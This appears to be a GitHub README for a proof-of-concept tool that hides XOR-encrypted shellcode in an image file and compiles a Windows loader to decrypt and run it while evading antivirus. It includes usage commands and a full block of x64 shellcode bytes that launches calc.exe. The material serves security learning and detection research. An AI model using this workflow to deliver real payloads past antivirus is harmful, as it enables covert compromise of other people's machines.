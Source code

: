 # StegExec 🚀
                                                  .       .
                                                 / `.   .' \
                                       .---.  <    > <    >  .---.
                                       |    \  \ - ~ ~ - /  /    |
                                        ~-..-~             ~-..-~
                                    \~~~\.'                    `./~~~/
                          .-~~^-.    \__/                        \__/
                        .'  O    \     /               /       \  \
                       (_____,    `._.'               |         }  \/~~~/
                        `----.          /       }     |        /    \__/
                            `-.      |       /      |       /      `. ,~~|
                                ~-.__|      /_ - ~ ^|      /- _      `..-'   f: f:
                                     |     /        |     /     ~-.     `-. _||_||_
                                     |_____|        |_____|         ~ - . _ _ _ _ _>

## Overview
StegExec (Steganography Executor) is a fully automated Proof of Concept for embedding XOR-encrypted shellcode within an image file. The project encrypts the shellcode, injects it into the image, and compiles a custom C++ executable that, when launched, locates, decrypts, and executes the shellcode. This project demonstrates file steganography, memory manipulation, and antivirus evasion techniques for educational purposes. 

NOTE: I made this to learn more about steganography and antivirus evasion for my own career development. This is not intended to be used for malicious purposes.

## Features
- Automated encryption, injection, and executable compilation
- Custom C++ loader for shellcode execution on launch
- Batch-driven workflow for seamless deployment
- Demonstrates file-based stealth execution

## Getting Started

### Prerequisites
- Windows
- Python 3.x
- MinGW (includes g++ and windres)
- PowerShell

### Installation
1. Clone the repository:
   ```bash
   git clone https://github.com/craig-rylance/StegExec.git
   cd stegexec
2. Ensure all required dependencies are installed:
- Install MinGW from [MinGW-w64](https://www.mingw-w64.org/) and ensure `g++` and `windres` are included in your installation.
3. Set up your environment:
- Place your target image file in the project directory.
- Prepare your shellcode input.

### Usage
1. Open PowerShell.
2. Run the batch script with the target image filename and shellcode as arguments:
    ```bash 
    .\compile-executable.cmd [target_image_file] "[shellcode]"
3. After successful execution, you will have a compiled `executable.exe` file that can be launched to execute the injected shellcode.


#### Example shellcode format (Launches calc.exe): 
Ensure that shellcode is formatted exactly like this, with spaces separating each byte.

    0x48 0x31 0xff 0x48 0xf7 0xe7 0x65 0x48 0x8b 0x58 0x60 0x48 0x8b 0x5b 0x18 0x48 0x8b 0x5b 0x20 0x48 0x8b 0x1b 0x48 0x8b 0x1b 0x48 0x8b 0x5b 0x20 0x49 0x89 0xd8 0x8b 0x5b 0x3c 0x4c 0x01 0xc3 0x48 0x31 0xc9 0x66 0x81 0xc1 0xff 0x88 0x48 0xc1 0xe9 0x08 0x8b 0x14 0x0b 0x4c 0x01 0xc2 0x4d 0x31 0xd2 0x44 0x8b 0x52 0x1c 0x4d 0x01 0xc2 0x4d 0x31 0xdb 0x44 0x8b 0x5a 0x20 0x4d 0x01 0xc3 0x4d 0x31 0xe4 0x44 0x8b 0x62 0x24 0x4d 0x01 0xc4 0xeb 0x32 0x5b 0x59 0x48 0x31 0xc0 0x48 0x89 0xe2 0x51 0x48 0x8b 0x0c 0x24 0x48 0x31 0xff 0x41 0x8b 0x3c 0x83 0x4c 0x01 0xc7 0x48 0x89 0xd6 0xf3 0xa6 0x74 0x05 0x48 0xff 0xc0 0xeb 0xe6 0x59 0x66 0x41 0x8b 0x04 0x44 0x41 0x8b 0x04 0x82 0x4c 0x01 0xc0 0x53 0xc3 0x48 0x31 0xc9 0x80 0xc1 0x07 0x48 0xb8 0x0f 0xa8 0x96 0x91 0xba 0x87 0x9a 0x9c 0x48 0xf7 0xd0 0x48 0xc1 0xe8 0x08 0x50 0x51 0xe8 0xb0 0xff 0xff 0xff 0x49 0x89 0xc6 0x48 0x31 0xc9 0x48 0xf7 0xe1 0x50 0x48 0xb8 0x9c 0x9e 0x93 0x9c 0xd1 0x9a 0x87 0x9a 0x48 0xf7 0xd0 0x50 0x48 0x89 0xe1 0x48 0xff 0xc2 0x48 0x83 0xec 0x20 0x41 0xff 0xd6

#### Example command:

    .\compile-executable.cmd example-image.jpg "0x48 0x31 0xff 0x48 0xf7 0xe7 0x65 0x48 0x8b 0x58 0x60 0x48 0x8b 0x5b 0x18 0x48 0x8b 0x5b 0x20 0x48 0x8b 0x1b 0x48 0x8b 0x1b 0x48 0x8b 0x5b 0x20 0x49 0x89 0xd8 0x8b 0x5b 0x3c 0x4c 0x01 0xc3 0x48 0x31 0xc9 0x66 0x81 0xc1 0xff 0x88 0x48 0xc1 0xe9 0x08 0x8b 0x14 0x0b 0x4c 0x01 0xc2 0x4d 0x31 0xd2 0x44 0x8b 0x52 0x1c 0x4d 0x01 0xc2 0x4d 0x31 0xdb 0x44 0x8b 0x5a 0x20 0x4d 0x01 0xc3 0x4d 0x31 0xe4 0x44 0x8b 0x62 0x24 0x4d 0x01 0xc4 0xeb 0x32 0x5b 0x59 0x48 0x31 0xc0 0x48 0x89 0xe2 0x51 0x48 0x8b 0x0c 0x24 0x48 0x31 0xff 0x41 0x8b 0x3c 0x83 0x4c 0x01 0xc7 0x48 0x89 0xd6 0xf3 0xa6 0x74 0x05 0x48 0xff 0xc0 0xeb 0xe6 0x59 0x66 0x41 0x8b 0x04 0x44 0x41 0x8b 0x04 0x82 0x4c 0x01 0xc0 0x53 0xc3 0x48 0x31 0xc9 0x80 0xc1 0x07 0x48 0xb8 0x0f 0xa8 0x96 0x91 0xba 0x87 0x9a 0x9c 0x48 0xf7 0xd0 0x48 0xc1 0xe8 0x08 0x50 0x51 0xe8 0xb0 0xff 0xff 0xff 0x49 0x89 0xc6 0x48 0x31 0xc9 0x48 0xf7 0xe1 0x50 0x48 0xb8 0x9c 0x9e 0x93 0x9c 0xd1 0x9a 0x87 0x9a 0x48 0xf7 0xd0 0x50 0x48 0x89 0xe1 0x48 0xff 0xc2 0x48 0x83 0xec 0x20 0x41 0xff 0xd6"

Running this command will produce an executable that will launch calc.exe using the encrypted shellcode inside of example-image.jpg

## ⚠️ Important Note
This project is for **educational and research purposes only**. Ensure compliance with all legal and ethical guidelines when testing or demonstrating the techniques presented in this project.

## Contributing
If you would like to contribute to this project, please fork the repository and submit a pull request with your enhancements or bug fixes.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Acknowledgments
- Credit to leetcipher (https://github.com/leetCipher) for the base Python and C++ code.